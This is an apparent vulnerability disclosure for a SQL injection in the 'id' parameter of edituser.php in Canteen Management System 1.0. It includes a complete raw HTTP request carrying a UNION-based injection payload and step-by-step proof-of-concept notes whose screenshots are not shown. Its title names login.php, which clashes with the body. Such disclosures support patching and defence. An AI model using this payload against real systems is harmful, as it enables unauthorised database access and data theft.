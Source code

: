 # Canteen Management System - edituser.php 'id' SQL inject

#### Exploit Title: Canteen Management System - login.php 'id' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

#### Software Link:https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

#### Version: Canteen Management System 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Canteen Management System does not filter the content correctly at the "edituser.php /id" parameter, resulting in the generation of SQL injection.

#### Payload used:

```GET /edituser.php?id=-7956'%20UNION%20ALL%20SELECT%20NULL,md5(1),NULL,NULL--+ HTTP/1.1
Host: 192.168.67.10:8091
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.67.10:8091
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.67.10:8091/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

#### Proof of Concept

1、After logging in, use the Edit User function

![image](https://github.com/joinia/webray.com.cn/blob/main/youthappam/images/edituserhtml.png)

2、Looking at the source code, it is found that the id field is directly brought into the SQL statement query without filtering

![image](https://github.com/joinia/webray.com.cn/blob/main/youthappam/images/editusersouce.png)



3、

![image](https://github.com/joinia/webray.com.cn/blob/main/youthappam/images/edituserburp.png)

4、The results can be directly echoed on the page by constructing correct SQL statements

![image](https://github.com/joinia/webray.com.cn/blob/main/youthappam/images/edituserresult.png)

5、Through testing with the tool, it is found that there are other injection methods such as blind SQL time injection.

![image](https://github.com/joinia/webray.com.cn/blob/main/youthappam/images/images\editusersqlmap.png)

